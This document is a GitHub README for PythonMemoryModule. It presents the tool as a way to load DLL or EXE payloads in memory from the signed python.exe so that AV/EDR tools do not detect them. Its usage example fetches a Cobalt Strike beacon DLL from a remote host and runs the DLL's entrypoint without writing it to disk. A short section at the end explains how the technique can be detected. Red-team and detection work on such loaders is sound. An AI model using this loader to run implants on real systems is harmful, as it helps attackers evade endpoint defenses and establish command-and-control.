

 [](https://twitter.com/intent/follow?screen_name=naksyn)

# PythonMemoryModule
pure-python implementation of MemoryModule technique to load a dll or unmanaged exe entirely from memory

<p align="center">

<br>
"Python memory module" AI generated pic - hotpot.ai 
</p>


# What is it

PythonMemoryModule is a Python ctypes porting of the [MemoryModule](https://www.joachim-bauch.de/tutorials/loading-a-dll-from-memory/) technique originally published by [Joachim Bauch](https://github.com/fancycode/MemoryModule). It can load a dll or unmanaged exe using Python without requiring the use of an external library (pyd).
It leverages [pefile](https://github.com/erocarrera/pefile) to parse PE headers and ctypes. 

The tool was originally thought to be used as a [Pyramid](https://github.com/naksyn/Pyramid/) module to provide evasion against AV/EDR by loading dll/exe payloads in python.exe entirely from memory, however other use-cases are possible (IP protection, pyds in-memory loading, spinoffs for other stealthier techniques) so I decided to create a dedicated repo.


# Why it can be useful

 1. It basically allows to use the MemoryModule techinque entirely in Python interpreted language, enabling the loading of a dll from a memory buffer using the stock signed python.exe binary without requiring dropping on disk external code/libraries (such as [pymemorymodule](https://pypi.org/project/pymemorymodule/) bindings) that can be flagged by AV/EDRs or can raise user's suspicion. 
 2. Using MemoryModule technique in compiled languages loaders would require to embed MemoryModule code within the loaders themselves. This can be avoided using Python interpreted language and PythonMemoryModule since the code can be executed dynamically and in memory.
 3. you can get some level of Intellectual Property protection by dynamically in-memory downloading, decrypting and loading dlls that should be hidden from prying eyes. Bear in mind that the dlls can be still recovered from memory and reverse-engineered, but at least it would require some more effort by the attacker.
 4. you can load a stageless payload dll without performing injection or shellcode execution. The loading process mimics the LoadLibrary Windows API (which takes a path on disk as input) without actually calling it and operating in memory.

# How to use it

In the following example a Cobalt Strike stageless beacon dll is downloaded (not saved on disk), loaded in memory and started by calling the entrypoint. 

```python
import urllib.request
import ctypes
import pythonmemorymodule
request = urllib.request.Request('http://192.168.1.2/beacon.dll')
result = urllib.request.urlopen(request)
buf=result.read()
dll = pythonmemorymodule.MemoryModule(data=buf, debug=True)
startDll = dll.get_proc_addr('StartW')
assert startDll()
#dll.free_library()
```
Note: if you use staging in your malleable profile the dll would not be able to load with LoadLibrary, hence MemoryModule won't work.




# How to detect it

Using the MemoryModule technique will mostly respect the sections' permissions of the target DLL and avoid the noisy RWX approach. However within the program memory there will be a private commit not backed by a dll on disk and this is a MemoryModule telltale.


### Future improvements

 1. add support for argument parsing.
 2. add support (basic) for .NET assemblies execution.
